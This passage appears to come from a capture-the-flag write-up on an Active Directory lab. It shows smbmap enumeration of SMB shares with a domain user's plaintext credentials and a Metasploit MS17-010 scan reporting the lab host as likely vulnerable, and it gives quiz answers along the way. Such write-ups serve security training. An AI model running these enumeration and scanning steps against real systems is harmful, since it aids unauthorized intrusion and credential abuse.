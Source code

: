 Since I have the credential of the domain user which is user `ali`, I can use `smbmap` to check it. 

```
smbmap -H 192.168.240.13 -d MYCOMS -u ali -p P@ssw0rd123!
[+] IP: 192.168.240.13:445	Name: 192.168.240.13                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Admin File                                        	READ ONLY	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	WebService                                        	READ, WRITE	Web service file share for company
```

From this output, user `ali` only have pemission to write on folder `WebService`.

**Answer: WebService**

### Q3 - NTLM hash result for user Administrator

![](/images/ctf-round-3-active-directory/17.png)

As I know this host ran SMB service, it could be vulnerable to MS17-010 or not. To verify it, I ran `msfconsole` and used `auxiliary/scanner/smb/smb_ms17_010`. This scanner will detect either the host is vulnerable or not.

```
$ msfconsole

msf6> use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.240.13
RHOSTS => 192.168.240.13
msf6 auxiliary(scanner/smb/smb_ms17_010) > set SMBDomain MYCOMS
SMBDomain => MYCOMS
msf6 auxiliary(scanner/smb/smb_ms17_010) > set SMBUser ali
SMBUser => ali
msf6 auxiliary(scanner/smb/smb_ms17_010) > set SMBPass P@ssw0rd123!
SMBPass => P@ssw0rd123!
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.240.13:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2012 R2 Standard Evaluation 9600 x64 (64-bit)
[*] 192.168.240.13:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
